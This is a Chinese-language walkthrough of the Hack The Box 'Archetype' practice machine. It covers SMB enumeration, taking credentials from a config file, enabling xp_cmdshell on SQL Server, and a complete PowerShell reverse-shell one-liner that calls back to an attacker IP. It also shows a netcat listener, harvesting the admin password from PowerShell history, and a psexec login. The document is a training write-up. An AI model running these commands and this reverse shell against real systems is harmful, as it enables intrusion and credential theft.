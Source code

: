 # Archetype
###### tags: `HTB_Starting Point`
1. 確認是否可以成功連線
```
ping 10.10.10.27 -c 4
```
![](https://i.imgur.com/Dj2unIt.png)

2. 執行端口掃描
```
nmap -A -T4 -oA nmap/Archetype 10.10.10.27
```
![](https://i.imgur.com/DgOgCwQ.png)
* 445&1433Port是打開的，它們與文件共享（SMB）和SQL Server相關聯。值得檢查是否允許匿名訪問，因為文件共享通常存儲包含密碼或其他敏感信息的配置文件。

3. 使用smbclient列出可用的共享
```
smbclient -N -L \\\\10.10.10.27\\
```
![](https://i.imgur.com/s6ro1tf.png)
* 嘗試訪問Backup，看看裡面有什麼線索。

![](https://i.imgur.com/RM1dULb.png)
* 有一個dtsConfig文件，它是與SSIS一起使用的配置文件。用Get將檔案載下來
```
get prod.dtsConfig
```
![](https://i.imgur.com/eOD04Hc.png)


* 查看一下檔案是否有可用資訊
```
cat prod.dtsConfig
```
![](https://i.imgur.com/xMrkdjH.png)
* 我們看到它包含一個SQL連接字符串，其中包含本地Windows用戶ARCHETYPE \ sql_svc的憑據。
```
cat prod.dtsConfig |grep ARCHETYPE
```
![](https://i.imgur.com/oTGhMYA.png)
* Found a credential:
	User = ARCHETYPE\sql_svc
	Password = M3g4c0rp123

4. 使用Impacket的mssqlclient.py連接到SQL Server。
```
git clone https://github.com/SecureAuthCorp/impacket
```
![](https://i.imgur.com/S0glJIn.png)
* 可以使用IS_SRVROLEMEMBER函數來顯示當前SQL用戶是否在SQL Server上具有sysadmin（最高級別）特權。當具有sysadmin特權時使我們能夠啟用xp_cmdshell並在主機上獲得RCE。
* 需要先安裝[pip3](https://bootstrap.pypa.io/get-pip.py)才能夠安裝impacket
```
apt update && apt upgrade 

apt install python3-pip 
```
* 檢查版本
```
pip3 --version
```
* 如果基於某種奇怪的原因安裝不起來，一直出現Error，可以點上面pip3連結直接下載檔案並用下列指令安裝
```
cd ~/Downloads 

python3 get-pip.py
```
* 安裝[Impacket](https://www.youtube.com/watch?v=wcs-OvCEd4A&ab_channel=UjjwalBasnyat)，附上參考影片
```
pip3 install -r /opt/impacket/requirements.txt

python3 ./setup.py install
```
* 嘗試連線登入
```
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
![](https://i.imgur.com/aX6Rped.png)

5. 檢查我們是否對SQL數據庫具有管理特權
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```
* 輸出結果為1，代表為真，的確有管理員權限

![](https://i.imgur.com/QcIIHN4.png)

* 由於要透過SQL Shell執行cmd命令，需要有一個名為的命令xp_cmdshell，我們必須對資料庫修進行系統配置的修改，為此，我們需要管理特權，這也是需要管理員權限的原因。(先檢查一下系統預設值)
```
sp_configure
```
![](https://i.imgur.com/81fg4LK.png)

* 啟用show advanced options
```
EXEC sp_configure 'show advanced options', 1

reconfigure;
```
![](https://i.imgur.com/nqLiT3L.png)

* 啟用xp_cmdshell
```
EXEC sp_configure 'xp_cmdshell', 1

reconfigure;

```
![](https://i.imgur.com/AZdlnV8.png)

* 最後檢查一下是否成功啟用上述兩項配置
```
sp_configure;
```
![](https://i.imgur.com/pDOYvB3.png)

6. Exploit
* 現在我們可以使用以下命令運行cmd命令 xp_cmdshell
```
xp_cmdshell "whoami"
```
![](https://i.imgur.com/3w32pAI.png)
* 將上面的powershell Script複製到帶有擴展名的文件中.ps1(將script中的IP更改為您自己的htb IP)
```
ifconfig

vim shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.14.8",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```
![](https://i.imgur.com/wI1kSz6.png)

*  在Reverse Shell腳本文件夾中啟動python服務器，以便我們可以將腳本下載到受害系統上並運行它。
```
sudo python3 -m http.server 80
```
![](https://i.imgur.com/ntHGQJW.png)

* 使用啟動監聽器netcat。當目標系統試圖連接到我們時，我們需要監聽它。由此得名：reverse shell
```
sudo nc -lvnp 443
```
![](https://i.imgur.com/lpM2R6t.png)
* 連線成功後，我們可以獲得archetype\sql_svc帳號權限，並取得普通user flag
```
whoami

type c:\users\sql_svc\desktop\user.txt
```
![](https://i.imgur.com/dn16AsS.png)

7. 權限提升
* 查看Powershell歷史記錄，查看該用戶最近的操作是什麼
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
![](https://i.imgur.com/601Lwu7.png)
Found a credential:
User = Administrator
Password = MEGACORP_4dm1n!!
* 現在我們有了管理員密碼，我們可以嘗試使用psexec登錄。(可以在impacket/examples路徑下找到)
```
cd impacket/examples

ls -al |grep psexec

python3 psexec.py administrator@10.10.10.27
```
![](https://i.imgur.com/tUG8shG.png)
* Get Flag!
```
type c:\users\administrator\desktop\root.txt
```
![](https://i.imgur.com/VMOwCCB.png)

